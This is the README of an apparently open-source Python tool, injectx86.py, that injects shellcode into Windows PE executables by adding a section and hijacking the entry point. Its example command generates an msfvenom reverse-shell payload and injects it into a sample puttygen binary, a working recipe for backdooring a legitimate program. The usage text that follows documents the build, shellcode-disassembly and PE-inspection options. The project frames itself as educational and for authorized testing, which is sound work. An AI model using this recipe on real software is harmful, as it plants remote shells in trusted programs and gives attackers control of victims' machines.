 # Exutils: A Small Collection of Python Scripts for Binary Analysis and Manipulation

**This project is meant to be used for educational purposes only or for authorized purposes.**

## Example

```
$ msfvenom -p windows/shell_reverse_tcp -o /path/to/payload/local.py LHOST=x LPORT=y -f python
## edit the local.py file and remove all the "python" portions so that it is just in /x00/x01/x02... format, new lines will be removed automatically
## save new verseion as local.txt
$ ./injectx86.py build -s txt:/path/to/payload/local.txt -f samples/puttygen-x86.exe --force --cave new-section -o /path/to/payloads/folder
``` 
## Usage

```
usage: injectx86.py [-h] {build,peinfo,shellasm} ...

Inject shellcode into new section

positional arguments:
  {build,peinfo,shellasm}
                        action
    build               build injected binary
    peinfo              get info about pefile
    shellasm            get asm from shellcode

optional arguments:
  -h, --help            show this help message and exit
```

### build;

Inject shellcode into a binary by creating a new section and changing the entrypoint via pefile. Attempts can be made to 'fix' the executable so that it restores the registers.

```
usage: injectx86.py build [-h] -s SHELLCODE -f FILE [-o OUTPUT] [-F] [--no-restore] [-c {auto,cave,new-section}] [-e {jump,new-section}]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file
                        via 'bin:/path/to/binary')
  -f FILE, --file FILE  path to source pe file
  -o OUTPUT, --output OUTPUT
                        path to newly created pe file
  -F, --force           force overwrite output
  --no-restore          do not fix the payload with popa and pusha
  -c {auto,cave,new-section}, --cave {auto,cave,new-section}
                        where to write the shellcode. defaults to auto
  -e {jump,new-section}, --enter {jump,new-section}
                        how to handle the entrypoing. defaults to 'jump' where the executable uses 'jmp' to move to new section

```

### shellasm

Convert shellcode to assembly via capstone

```
usage: injectx86.py shellasm [-h] -s SHELLCODE [-a {x86}] [-m {x32,x64}] [-S START]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file
                        via 'bin:/path/to/binary')
  -a {x86}, --arch {x86}
                        architecture (default: x86)
  -m {x32,x64}, --mode {x32,x64}
                        mode (default: 64)
  -S START, --start START
                        start in hex or decimal format (default: 0x1000)

```

### peinfo

Get basic info from a PE using pefile

```
usage: injectx86.py peinfo [-h] -f FILE [-i {all,sections,imported,exported,dump,entry,start}]

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  path to pe file
  -i {all,sections,imported,exported,dump,entry,start}, --info {all,sections,imported,exported,dump,entry,start}
                        information to show

```

### Shoulders of Giants:

- https://github.com/rmadair/PE-Injector/blob/master/pe-injector.py
- https://axcheron.github.io/code-injection-with-python/#adding-the-section-header
- https://github.com/v-p-b/peCloakCapstone
- https://github.com/secretsquirrel/the-backdoor-factory
- https://nightcr4wl3r.blogspot.com/2017/11/automating-backdoor-creation-for-pe.html
